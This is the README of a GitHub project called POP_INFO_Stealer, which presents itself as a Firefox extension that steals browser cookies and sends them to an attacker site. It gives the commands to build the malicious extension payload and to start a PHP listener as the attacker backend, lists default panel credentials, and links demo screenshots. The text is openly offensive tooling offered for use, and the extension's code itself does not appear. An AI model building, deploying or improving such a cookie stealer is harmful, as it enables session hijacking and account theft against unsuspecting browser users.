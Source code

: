 # POP_INFO_Stealer
firefox extension that steal browser cookies 
tested on Mozilla Firefox (115.6.0)
it send cookies to attacker site 
# requirements 
python3
7z
# building payload
`cd pop_add_bilder;python3 pop_add_bilder.py`


![ building payload](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/buliding.png)
# listener
`cd Attacker_backend;sudo php -S 127.0.0.1:80`
# username : root , password : toor
![ listener ](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/listener.png)

![ attacker](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/attacker.png)

# cleaning sessionStorage
`just load the manifest.json from clear_sessionStorage_add folder`
